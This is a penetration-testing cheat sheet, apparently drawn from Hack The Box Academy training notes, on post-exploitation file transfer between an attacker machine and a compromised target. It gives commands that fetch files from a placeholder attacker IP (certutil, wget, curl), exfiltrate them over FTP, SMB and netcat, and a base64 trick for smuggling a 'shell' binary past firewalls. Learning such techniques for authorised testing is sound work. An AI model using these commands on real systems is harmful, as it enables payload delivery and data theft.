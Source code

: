 # Transfert file between target and attacking machines

## HTTP

### From attack machine to Target

#### Attacking machine

- In kali we can use python `python3 -m http.server 80`

#### Target machine

- On a win target machine you can access it directly with the browser: `http://IP-ATTACKING-MACHINE/FILE-TO-GET` or you can use certutil.exe `certutil.exe -urlcache http://IP-ATTACKING-MACHINE/FILE-TO-GET file-to-get`
- In a linux target machine you can use `wget http://IP-ATTACKING-MACHINE/FILE-TO-GET` or curl `curl -o FILE-TO-GET http://IP-ATTACKING-MACHINE/FILE-TO-GET`

#### Updog

- Another great tool to transfer is [updog](https://github.com/sc0tfree/updog), it goes both ways if you can access a browser :D :D :D
- `pip3 install updog` easy as this to install
- 

## FTP

### From attack machine to target

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `get filename` to get the file

### From Target to attack

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `put filename` to send the file
- `curl --user anonymous:anonymous -o docker-toolbox.exe ftp://10.10.10.236/docker-toolbox.exe`

## SMB

### From Target to attack machine

#### Attacking machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder`
- We can specify `-username user -password pass` if we need set up an authentication

#### Target machine

- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OFF-ATTACKING-MACHINE\SHARENAME`
- Sometimes on windows we will be asked to use a service that requires authentication so we can set this up with `net use \\<network-location>\<some-share> password /USER:username` after this we will be able to use the previous copy command

## Metasploit

### From attack machine to Target

There is an upload and download feature

## SSH (creds needed)

### From attack machine to Target (local to remote)

- In your kali or any linux `scp FILE-TO-SEND user@ip:/path/to/folder`

### From target to attack (remote to local)

- In your kali or any linux cmd `scp user@ip:/path/to/folder FILE-TO-GET`

### Note

- If you get this error `protocol error: filename does not match request`
- You will need to add `-T` in your command. Here is an example:
- `scp -T user@server:C:\\Path\\To\\file.txt dest-folder`

## Netcat

### From Target to attack machine

#### Target machine

- `nc -lvp PORT-NUMBER > FILE-TO-SEND

#### Attacking machine

- `nc VICTIM-IP PORT-NUMBER -w 3 < FILE` note: -w is for the time out in seconds

## Evade firewall

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:  

- `base64 shell -w 0`

Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:  

- `echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ..lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`

### Validate file

- `file shell`
- `md5sum shell` and compare the result in the attacking machine and target

*Source Hackthebox Academy*

## Resources

{% embed url="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" %} Transfer files (Post explotation) – CheatSheet - PABLO PLAZA MARTÍNEZ {% endembed %}
